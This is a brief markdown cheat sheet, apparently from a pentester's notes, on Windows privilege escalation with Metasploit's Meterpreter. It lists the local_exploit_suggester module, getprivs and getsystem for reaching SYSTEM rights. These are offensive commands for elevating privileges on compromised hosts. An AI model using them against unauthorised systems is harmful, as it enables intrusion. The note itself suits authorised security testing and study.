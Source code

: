 # Windows Privileges Escalation

## Meterpreter manual
```bash
run post/multi/recon/local_exploit_suggester
```

```bash
run path/to/exploit 
```
Notice that it isn't because the exploit doesn't escalate us to nt authority/ System that it hasn't wordked.  
Checks permissions with `getprivs`, some may have appeared

## Meterpreter auto
```bash
getsystem
```
Notice that sometimes, it will require some manual meterpreter privesc before to be able to escalate us to nt auhtority/system